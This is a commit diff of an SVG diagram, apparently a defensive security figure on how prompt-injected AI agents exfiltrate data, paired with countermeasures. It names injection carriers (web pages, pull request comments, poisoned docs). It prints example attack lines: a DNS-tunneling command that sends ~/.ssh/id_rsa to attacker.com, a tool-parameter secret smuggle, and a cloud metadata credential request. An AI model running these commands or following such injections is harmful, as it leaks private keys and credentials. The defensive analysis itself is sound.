

<svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 960 460" width="100%" height="100%" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, Helvetica, Arial, sans-serif">
  <defs>
    <marker id="arr-navy" markerWidth="8" markerHeight="6" refX="7" refY="3" orient="auto">
      <path d="M0,0 L8,3 L0,6 Z" fill="#1e293b" />
    </marker>
    <marker id="arr-burgundy" markerWidth="8" markerHeight="6" refX="7" refY="3" orient="auto">
      <path d="M0,0 L8,3 L0,6 Z" fill="#991b1b" />
    </marker>
    <marker id="arr-teal" markerWidth="8" markerHeight="6" refX="7" refY="3" orient="auto">
      <path d="M0,0 L8,3 L0,6 Z" fill="#0f766e" />
    </marker>
  </defs>
  <rect width="960" height="460" fill="#ffffff" />
  <g transform="translate(24, 20)">
    <rect width="912" height="190" rx="4" fill="#f8fafc" stroke="#1e293b" stroke-width="1.5" />
    <rect width="912" height="28" rx="4" fill="#f1f5f9" stroke="#1e293b" stroke-width="1.5" />
    <text x="14" y="19" font-size="9" font-weight="700" fill="#1e293b" letter-spacing="0.5">THE DATA EXFILTRATION CONJUNCTION: S_priv ∧ I_inject ∧ C_egress</text>
    <g transform="translate(15, 38)">
      <rect width="270" height="138" rx="3" fill="#ffffff" stroke="#cbd5e1" stroke-width="1.2" />
      <rect width="270" height="20" rx="3" fill="#f1f5f9" />
      <text x="8" y="14" font-size="8" font-weight="700" fill="#1e293b">1. Sensitive Context Residency (S_priv)</text>
      <text x="8" y="32" font-size="7.2" fill="#475569">Target of value resident in agent memory:</text>
      <text x="14" y="46" font-family="monospace" font-size="7" fill="#334155">• Private source code / IP</text>
      <text x="14" y="58" font-family="monospace" font-size="7" fill="#334155">• Database records &amp; customer PII</text>
      <text x="14" y="70" font-family="monospace" font-size="7" fill="#334155">• Session tokens &amp; SSH credentials</text>
      <rect x="8" y="82" width="254" height="46" rx="2" fill="#f0fdf4" stroke="#86efac" stroke-width="0.8" />
      <text x="135" y="96" font-size="7" font-weight="700" fill="#166534" text-anchor="middle">Defensive Countermeasure</text>
      <text x="135" y="108" font-size="6.8" fill="#166534" text-anchor="middle">Zero Ambient Credentials in sandbox</text>
      <text x="135" y="120" font-size="6.8" fill="#166534" text-anchor="middle">Opaque blob handles ($blob_id)</text>
    </g>
    <text x="299" y="112" font-size="16" font-weight="700" fill="#991b1b" text-anchor="middle">∧</text>
    <g transform="translate(321, 38)">
      <rect width="270" height="138" rx="3" fill="#ffffff" stroke="#991b1b" stroke-width="1.2" />
      <rect width="270" height="20" rx="3" fill="#fee2e2" />
      <text x="8" y="14" font-size="8" font-weight="700" fill="#991b1b">2. Injected Adversarial Instruction (I_inject)</text>
      <text x="8" y="32" font-size="7.2" fill="#475569">Untrusted data payload steering reasoning:</text>
      <text x="14" y="46" font-family="monospace" font-size="7" fill="#991b1b">• Indirect prompt injection in web page</text>
      <text x="14" y="58" font-family="monospace" font-size="7" fill="#991b1b">• Malicious pull request comment</text>
      <text x="14" y="70" font-family="monospace" font-size="7" fill="#991b1b">• Poisoned dependency documentation</text>
      <rect x="8" y="82" width="254" height="46" rx="2" fill="#f0fdf4" stroke="#86efac" stroke-width="0.8" />
      <text x="135" y="96" font-size="7" font-weight="700" fill="#166534" text-anchor="middle">Defensive Countermeasure</text>
      <text x="135" y="108" font-size="6.8" fill="#166534" text-anchor="middle">Quarantined Reader (Dual-LLM)</text>
      <text x="135" y="120" font-size="6.8" fill="#166534" text-anchor="middle">Grammar-constrained JSON decode</text>
    </g>
    <text x="605" y="112" font-size="16" font-weight="700" fill="#991b1b" text-anchor="middle">∧</text>
    <g transform="translate(627, 38)">
      <rect width="270" height="138" rx="3" fill="#ffffff" stroke="#cbd5e1" stroke-width="1.2" />
      <rect width="270" height="20" rx="3" fill="#f1f5f9" />
      <text x="8" y="14" font-size="8" font-weight="700" fill="#1e293b">3. Outbound Egress Channel (C_egress)</text>
      <text x="8" y="32" font-size="7.2" fill="#475569">Pathway to transmit bits to external host:</text>
      <text x="14" y="46" font-family="monospace" font-size="7" fill="#334155">• Parameter smuggling in authorized APIs</text>
      <text x="14" y="58" font-family="monospace" font-size="7" fill="#334155">• Covert DNS tunneling (UDP 53)</text>
      <text x="14" y="70" font-family="monospace" font-size="7" fill="#334155">• Direct socket / HTTP POST egress</text>
      <rect x="8" y="82" width="254" height="46" rx="2" fill="#f0fdf4" stroke="#86efac" stroke-width="0.8" />
      <text x="135" y="96" font-size="7" font-weight="700" fill="#166534" text-anchor="middle">Defensive Countermeasure</text>
      <text x="135" y="108" font-size="6.8" fill="#166534" text-anchor="middle">Dynamic Taint Tracking on sinks</text>
      <text x="135" y="120" font-size="6.8" fill="#166534" text-anchor="middle">Split-horizon DNS + port 53 drop</text>
    </g>
  </g>
  <g transform="translate(24, 226)">
    <rect width="912" height="214" rx="4" fill="#f8fafc" stroke="#1e293b" stroke-width="1.5" />
    <rect width="912" height="28" rx="4" fill="#f1f5f9" stroke="#1e293b" stroke-width="1.5" />
    <text x="14" y="19" font-size="9" font-weight="700" fill="#1e293b" letter-spacing="0.5">COVERT CHANNEL TAXONOMY &amp; SYSTEMS REMEDIATION</text>
    <g transform="translate(15, 38)">
      <rect width="280" height="162" rx="3" fill="#ffffff" stroke="#cbd5e1" stroke-width="1" />
      <rect width="280" height="20" rx="3" fill="#f1f5f9" />
      <text x="8" y="14" font-size="8" font-weight="700" fill="#1e293b">A. Tool Parameter Smuggling</text>
      <text x="8" y="32" font-size="7" fill="#475569">Attacker encodes stolen secret into normal API call:</text>
      <rect x="8" y="40" width="264" height="34" rx="2" fill="#fee2e2" stroke="#fca5a5" stroke-width="0.8" />
      <text x="12" y="52" font-family="monospace" font-size="6.8" fill="#991b1b">search_docs(query="leak_" + hex(KEY))</text>
      <text x="12" y="66" font-family="monospace" font-size="6.8" fill="#7f1d1d">Target: legitimate public registry log</text>
      <text x="8" y="88" font-size="7.2" font-weight="700" fill="#0f766e">Enforced Systems Control:</text>
      <text x="8" y="102" font-size="7" fill="#334155">1. Entropy profiling: H(X) &gt; 4.5 bits/char flagged</text>
      <text x="8" y="114" font-size="7" fill="#334155">2. Regex secret mask: Redacts AKIA, ghp_, PEM keys</text>
      <text x="8" y="126" font-size="7" fill="#334155">3. Reference substitution: Pass $ref_3, not raw text</text>
      <rect x="8" y="136" width="264" height="18" rx="2" fill="#f0fdf4" />
      <text x="140" y="148" font-size="6.8" font-weight="700" fill="#166534" text-anchor="middle">Verdict: Intercepted by Reference Monitor</text>
    </g>
    <g transform="translate(316, 38)">
      <rect width="280" height="162" rx="3" fill="#ffffff" stroke="#cbd5e1" stroke-width="1" />
      <rect width="280" height="20" rx="3" fill="#f1f5f9" />
      <text x="8" y="14" font-size="8" font-weight="700" fill="#1e293b">B. DNS Tunneling (UDP Port 53)</text>
      <text x="8" y="32" font-size="7" fill="#475569">Exfiltration over recursive domain name queries:</text>
      <rect x="8" y="40" width="264" height="34" rx="2" fill="#fee2e2" stroke="#fca5a5" stroke-width="0.8" />
      <text x="12" y="52" font-family="monospace" font-size="6.8" fill="#991b1b">dig $(xxd -p ~/.ssh/id_rsa).attacker.com</text>
      <text x="12" y="66" font-family="monospace" font-size="6.8" fill="#7f1d1d">Bypasses standard TCP/HTTP firewall blocks</text>
      <text x="8" y="88" font-size="7.2" font-weight="700" fill="#0f766e">Enforced Systems Control:</text>
      <text x="8" y="102" font-size="7" fill="#334155">1. Split-horizon DNS: Drop public recursors (8.8.8.8)</text>
      <text x="8" y="114" font-size="7" fill="#334155">2. Static host injection: Hardcode /etc/hosts at boot</text>
      <text x="8" y="126" font-size="7" fill="#334155">3. iptables -A FORWARD -p udp --dport 53 -j DROP</text>
      <rect x="8" y="136" width="264" height="18" rx="2" fill="#f0fdf4" />
      <text x="140" y="148" font-size="6.8" font-weight="700" fill="#166534" text-anchor="middle">Verdict: Silent Kernel Drop at Bridge Interface</text>
    </g>
    <g transform="translate(617, 38)">
      <rect width="280" height="162" rx="3" fill="#ffffff" stroke="#cbd5e1" stroke-width="1" />
      <rect width="280" height="20" rx="3" fill="#f1f5f9" />
      <text x="8" y="14" font-size="8" font-weight="700" fill="#1e293b">C. Instance Metadata Service (IMDS)</text>
      <text x="8" y="32" font-size="7" fill="#475569">Targeting hypervisor host IAM credentials:</text>
      <rect x="8" y="40" width="264" height="34" rx="2" fill="#fee2e2" stroke="#fca5a5" stroke-width="0.8" />
      <text x="12" y="52" font-family="monospace" font-size="6.8" fill="#991b1b">GET http://169.254.169.254/latest/meta-data/</text>
      <text x="12" y="66" font-family="monospace" font-size="6.8" fill="#7f1d1d">Steals host hypervisor role tokens</text>
      <text x="8" y="88" font-size="7.2" font-weight="700" fill="#0f766e">Enforced Systems Control:</text>
      <text x="8" y="102" font-size="7" fill="#334155">1. Link-local filter: Block 169.254.169.254/32</text>
      <text x="8" y="114" font-size="7" fill="#334155">2. IMDSv2 mandatory: Hop limit = 1 prevents VM leap</text>
-       <text x="8" y="126" font-size="7" fill="#334155">3. Egress proxy: Whitelist destinations strictly</text>
+       <text x="8" y="126" font-size="7" fill="#334155">3. Egress proxy: Allowlist destinations strictly</text>
      <rect x="8" y="136" width="264" height="18" rx="2" fill="#f0fdf4" />
      <text x="140" y="148" font-size="6.8" font-weight="700" fill="#166534" text-anchor="middle">Verdict: TCP Connection Refused</text>
    </g>
  </g>
</svg>
